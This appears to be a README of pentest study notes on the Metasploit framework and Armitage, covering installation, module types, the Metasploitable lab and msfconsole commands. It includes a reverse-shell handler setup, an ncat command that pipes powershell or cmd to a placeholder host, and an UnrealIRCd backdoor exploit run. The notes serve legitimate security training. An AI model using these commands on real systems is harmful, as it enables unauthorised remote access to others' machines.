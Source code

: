 <h5><em>Update: Aug-2022</em></h5>

<h2> Metasploit (cc. Armitage)</h2>

-   The most popular exploitation framework in the industry

<h3> Metasploit Project Intro.</h3>

<i>Refer to -> https://www.metasploit.com/</i>

<i>Tutorial: https://www.offensive-security.com/metasploit-unleashed/introduction/</i>

<h4> Installation</h4>

-   msf: CLI based Metasploit framework (Kali Linux default program)
-   Armitage: Java-based GUI front-end for the Metasploit framework

    ```sh
    # metasploit (mfsconsole): Kali Linux default
    # Armitage: need install
    sudo apt install armitage

    ```

<h4> Modules</h4>

1. Exploits: modules that use payloads
2. Auxiliary: port scanners, fuzzers, sniffers, and more
3. Payloads: code that runs remotely
4. Encoders: Ensure that payloads make it to their destination intact
5. Nops: Keep the payload sizes consistent across exploit attempts
   <br/>

<h4> Lab Environment: Metasploitable</h4>

[Metasploitable 2 Exploitability Guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)

[Metasploitable 2 from SourceForge](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)

<h6><font color="red"> *** Never expose Metasploitable to an untrusted network, use NAT or Host-only mode ! ***</font></h6>
   <br/>

<h4> <font color="blue">msf</font> CLI</h4>

```sh
service postgresql start
msfdb init
msfconsole
banner
help

show exploits
show options
show payloads
show targets
show info

# use "module-name-you-want-to-use"
use exploit/windows/browser/adobe_flash_avm2
show options
set SRVPORT 80
set SRVHOST 192.168.0.1
exploit
back
exit


# search specific exploits matching keywords
search type:exploit platform:windows flash
search mysql

# Example-1: reverse shell connection to a Windows machine
use exploit/multi/handler
show options
set PAYLOAD generic/shell_reverse_tcp
set LHOST xx.xx.xx.xx
set LPORT pppp
show options
exploit

# if the target is a Windows machine
>> ncat -nv xx.xx.xx.xx pppp -e powershell or cmd

# Example-2: vulerable IRC server (need to be pre-identified)
use exploit/unix/irc/unreal_ircd_3182_backdoor
show payloads
set PAYLOAD payload/cmd/unix/reverse
show options
set LHOST xx.xx.xx.xx
set RHOST xx.xx.xx.xx
show options
exploit


### CompTIA PenTest Reference


```
